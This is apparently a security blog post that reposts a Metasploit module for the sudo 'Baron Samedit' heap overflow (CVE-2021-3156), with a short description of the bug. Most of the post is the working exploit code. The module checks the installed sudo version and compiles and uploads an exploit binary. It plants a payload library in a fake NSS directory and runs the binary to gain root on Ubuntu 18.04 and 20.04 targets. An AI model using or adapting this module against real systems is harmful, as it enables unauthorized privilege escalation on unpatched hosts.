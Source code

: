 ```yaml
---
layout: post
title: Sudo 1.8.31p2 / 1.9.5p1 Buffer Overflow
date: 2021-02-17 04:17 +0300
categories: [Exploits, Overflow]
tags: [exploits]
---
```










![](../../../assets/img/Exploits/sudo.png)

There is a vulnerability in the sudo command line utility that allows a local attacker to gain elevated privileges through a heap based buffer overflow. The vulnerability was introduced in July 2011 and affects version 1.8.2 through 1.8.31p2, as well as 1.9.0 through 1.9.5p1 in their default configurations. By exploiting the overflow, the attacker can overwrite a service\_user struct in memory and reference a library under their control, which will then be loaded with the elevated privileges held by sudo.

  

```MD5 | 5a520123546e73d450b7fef8df23c9de```

```perl
    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##
    
    class MetasploitModule < Msf::Exploit::Local
      Rank = ExcellentRanking
    
      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Post::File
      include Msf::Post::Unix
      include Msf::Post::Linux::Compile
      include Msf::Post::Linux::System
      include Msf::Exploit::EXE
      include Msf::Exploit::FileDropper
    
      def initialize(info = {})
        super(
          update_info(
            info,
            'Name'           => 'Sudo Heap-Based Buffer Overflow',
            'Description'    => %q(
              A heap based buffer overflow exists in the sudo command line utility that can be exploited by a local attacker
              to gain elevated privileges. The vulnerability was introduced in July of 2011 and affects version 1.8.2
              through 1.8.31p2 as well as 1.9.0 through 1.9.5p1 in their default configurations. The technique used by this
              implementation leverages the overflow to overwrite a service_user struct in memory to reference an attacker
              controlled library which results in it being loaded with the elevated privileges held by sudo.
            ),
            'License'        => MSF_LICENSE,
            'Author'         =>
              [
                'Qualys',                            # vulnerability discovery and analysis
                'Spencer McIntyre',                  # metasploit module
                'bwatters-r7',                       # metasploit module
                'blasty <blasty@fail0verflow.com>',  # original PoC
                'Alexander Krog'                     # detailed vulnerability analysis and exploit technique
              ],
            'SessionTypes'   => ['shell', 'meterpreter'],
            'Platform'       => ['unix', 'linux'],
            'References'     => [
              ['URL', 'https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit'],
              ['URL', 'https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt'],
              ['URL', 'https://www.kalmarunionen.dk/writeups/sudo/'],
              ['URL', 'https://github.com/blasty/CVE-2021-3156/blob/main/hax.c'],
              ['CVE', '2021-3156'],
            ],
            'Targets'        =>
              [
                [ 'Manual', { } ],
                [ 'Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)', { lengths: [ 56, 54, 63, 200 ] } ],
                [ 'Ubuntu 18.04 x64 (sudo v1.8.21, libc v2.27)', { lengths: [ 56, 54, 63, 212 ] } ],
              ],
            'DefaultTarget'  => 1,
            'Arch'           => ARCH_X64,
            'DefaultOptions' => { 'PrependSetgid' => true, 'PrependSetuid' => true, 'WfsDelay' => 10 },
            'DisclosureDate' => '2021-01-26',
            'Notes' => {
              'AKA'         => [ 'Baron Samedit' ],
              'SideEffects' => [ARTIFACTS_ON_DISK, IOC_IN_LOGS],
              'Reliability' => [REPEATABLE_SESSION]
            }
          )
        )
    
        register_options([
          OptString.new('WritableDir', [ true, 'A directory where you can write files.', '/tmp' ])
        ])
    
        register_advanced_options([
          OptString.new('Lengths', [ false, 'The lengths to set as used by the manual target. (format: #,#,#,#)' ], regex: /(\d+(,[ ]*| )){3}\d+/)
        ])
    
        deregister_options('COMPILE')
      end
    
      def get_versions
        versions = {}
        output = cmd_exec("sudo --version")
        if output
          version = output.split("\n").first.split(' ').last
          versions[:sudo] = version if version =~ /^\d/
        end
    
        versions
      end
    
      def check
        sudo_version = get_versions[:sudo]
        return CheckCode::Unknown('Could not identify the version of sudo.') if sudo_version.nil?
    
        # fixup the p number used by sudo to be compatible with Gem::Version
        sudo_version.gsub!(/p/, '.')
    
        vuln_builds = [
          [Gem::Version.new('1.8.2'), Gem::Version.new('1.8.31.2')],
          [Gem::Version.new('1.9.0'), Gem::Version.new('1.9.5.1')],
        ]
    
        if sudo_version == '1.8.31'
          # Ubuntu patched it as version 1.8.31-1ubuntu1.2 which is reported as 1.8.31
          return CheckCode::Detected("sudo #{sudo_version} maybe a vulnerable build.")
        end
    
        if vuln_builds.any? { |build_range| Gem::Version.new(sudo_version).between?(*build_range) }
          return CheckCode::Appears("sudo #{sudo_version} is a vulnerable build.")
        end
    
        CheckCode::Safe("sudo #{sudo_version} is not a vulnerable build.")
      end
    
      def upload(path, data)
        print_status "Writing '#{path}' (#{data.size} bytes) ..."
        write_file path, data
      end
    
      def exploit
        if target.name == 'Manual'
          fail_with(Failure::BadConfig, 'The "Lengths" advanced option must be specified for the manual target') if datastore['Lengths'].blank?
          arguments = datastore['Lengths'].gsub(/,/, ' ').gsub(/  +/, ' ')
        else
          arguments = target[:lengths].join(' ')
        end
    
        fail_with(Failure::NotFound, 'The gcc binary was not found') unless has_gcc?
    
        path = datastore['WritableDir']
        cmd_exec("mkdir -p #{path}/libnss_X")
    
        file_name = rand_text_alphanumeric(5..10)
        upload_and_compile("#{path}/#{file_name}", exploit_data('CVE-2021-3156', 'exploit.c'), '-lutil')
        upload("#{path}/libnss_X/P0P_SH3LLZ_ .so.2", generate_payload_dll)
        cmd_exec("#{path}/#{file_name} #{arguments}")
      end
    end
```

<br>

  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)
